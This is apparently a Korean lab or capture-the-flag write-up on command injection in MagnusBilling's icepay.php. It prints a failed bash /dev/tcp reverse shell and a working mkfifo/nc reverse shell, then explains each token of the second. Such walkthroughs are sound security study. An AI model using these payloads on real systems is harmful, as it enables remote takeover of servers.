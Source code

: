 ## ❌ 1차 시도 실패 원인 분석

1차 시도 예시 (실패):

```bash
curl "http://10.10.13.178/mbilling/lib/icepay/icepay.php?democ=test;bash -c 'bash -i >& /dev/tcp/10.8.136.212/4444 0>&1'"
```

### 🔎 주요 문제점 분석

| 원인                                                   | 설명                                                                                                                                               |
| ------------------------------------------------------ | -------------------------------------------------------------------------------------------------------------------------------------------------- |
| `bash -c` 내부의 리디렉션 구문 (`>&`, `0>&1`)          | Bash는 이중 리디렉션에서 **인용 오류**, 또는 `ambiguous redirect`가 발생하기 쉽습니다. 특히, 웹에서 인젝션될 때는 `>`나 `&`가 제대로 해석되지 않음 |
| 작은따옴표 (`'`) 포함                                  | URL 인코딩이 불완전하면 서버에서 구문 파싱 오류 발생 가능                                                                                          |
| 단일 파이프라인 방식                                   | 네트워크 지연이나 세션 종료 시 취약                                                                                                                |
| 일부 웹쉘에서는 `bash` 명령이 제한되거나 `sh`만 허용됨 | `sh`는 내장 기능이 적지만 더 호환성 높음                                                                                                           |

결론적으로 **복잡한 리디렉션 구조와 bash 의존** 때문에 파싱 오류가 발생하거나 명령이 실행되지 않았을 수 있습니다.

---

## ✅ 2차 시도 명령어 완전 분석 (성공한 이유 포함)

```bash
democ=;rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|sh -i 2>&1|nc 10.8.136.212 443 >/tmp/f;
```

### 🧠 토큰별 분석

| 토큰            | 설명                                            |                                           |
| --------------- | ----------------------------------------------- | ----------------------------------------- |
| `;`             | 앞의 파라미터(`democ=`) 종료 후 명령어 주입     |                                           |
| `rm /tmp/f`     | 이전에 생성된 FIFO 파일 제거 (중복 방지)        |                                           |
| `mkfifo /tmp/f` | FIFO(named pipe) 파일 생성                      |                                           |
| `cat /tmp/f`    | 해당 FIFO에서 입력 기다림                       |                                           |
| \`              | sh -i\`                                         | FIFO에서 읽은 내용을 인터랙티브 셸로 전달 |
| `2>&1`          | 표준 에러를 표준 출력으로 리디렉션              |                                           |
| \`              | nc 10.8.136.212 443\`                           | `sh -i` 출력을 공격자에게 보냄            |
| `> /tmp/f`      | 공격자 입력을 다시 FIFO로 연결 (입력 루프 완성) |                                           |
| `;`             | 명령어 체인 종료                                |                                           |

---
